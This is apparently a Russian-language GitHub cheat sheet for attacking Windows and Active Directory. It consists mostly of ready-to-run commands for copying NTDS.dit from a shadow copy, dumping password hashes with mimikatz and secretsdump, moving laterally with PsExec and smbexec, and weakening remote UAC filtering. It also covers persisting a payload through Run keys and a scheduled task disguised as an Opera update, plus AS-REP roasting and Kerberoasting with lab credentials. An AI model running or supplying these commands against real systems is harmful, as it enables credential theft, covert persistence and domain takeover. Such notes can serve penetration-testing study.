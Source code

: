# Up_windows
Подключение по РДП
rdesktop -u Administrator -p Admin123 -d ROOT.DC 192.168.50.200  
для машины в рабочей группе xfreerdp /u:Alexs /p:2013 /v:192.168.50.232
xfreerdp /v:192.168.50.200 /d:root.dc /u:administrator /p:Admin123

РДП из коммандной строки
mstsc /v:<адрес_компьютера>






Создание теневой копии диска

vssadmin create shadow /for=c:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy




Поиск секретов


cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Как извлечь хеш пароля пользователя NTLM из файлов реестра



.\mimikatz.exe
lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL >> text распарсить файл ntds.dit




Psexec -i \\192.168.50.200 -u administrator -s cmd.exe Привелигерованный режим... (если уже админ то ситем)
для psexec
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f




Автозагрузка.....
Если у вас права обычного пользователя, следует использовать ветку реестра HKCU

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
 
reg add "HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"



Если у вас есть админские права в системе, следует использовать ветку HKLM — в таком случае каждый раз при запуске системы будет выполняться payload.exe или dll. Этот способ хорош тем, что не зависит от пользователя, который логинится в систему.

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v payload /t REG_SZ /d "C:\tmp\payload.dll"
 
reg add “HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run” /v payload /t REG_SZ /d “C:\tmp\payload.exe”


Пример создания запланированной задачи:

schtasks /create /sc minute /mo 5 /tn "Opera scheduled Autoupdate 1594994248" /tr C:\tmp\Opera_autoupdate1594994248.exe

at 13:01 /interactive cmd запуск с правами администратора!!!

chcp 65001

psexec -i \\\adress -u user cmd

python smbexec.py ignite/administrator:Ignite@987@192.168.1.105

***************************************************************************************************************************************************
Cбор информации в домене 


net user /domain пользователи домена
Get-ADUser -identity administrator -properties *
Get-ADUser -identity administrator -properties memberof

net user administrator /domain в какие группы входит пользователь
net group "domain admins" кто входит в группы

Get-ADcomputer -filter * -properties * | ft nmae, ipv4adress компутеры в домене
net group "domain computer"

снаружи домена 
rpcclient 10.10.38.153 -U nik - нужен пароль - может перечислять пользователей и группы в домене 
enumdomusers - перчисляет пользователей 
enumdomgroup - перечисляет группы

Поиск SPN_учетных записей без пароля
python3 GetNPUsers.py enterprise.thm/ -dc-ip 10.10.38.153 -usersfile /home/max/users.txt -no-pass

Глянуть SPN 

python3 GetUserSPNs.py -dc-ip 10.10.154.84 lab.enterprise.thm/nik:ToastyBoi! -request

   Скрипты векторов повышения привелегий

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Systeminfo - отображает подробную информацию о конфигурации компьютера и его операционной системы, включая конфигурацию операционной системы, информацию о безопасности, идентификатор продукта и свойства оборудования (например, ОЗУ, место на диске и сетевые карты).
Systeminfo перенаправил в текстовик, после этого я загрузил на Kali этот файл, и сейчас будем смотреть в него

Но перед этим нужно скачать exploit_suggester, например такой: GitHub - AonCyberLabs/Windows-Exploit-Suggester: This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.

https://github.com/HarmJ0y/PowerUp

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
  для которого import-module ./powerup.ps1 и затем Invoke-AllChecks

  
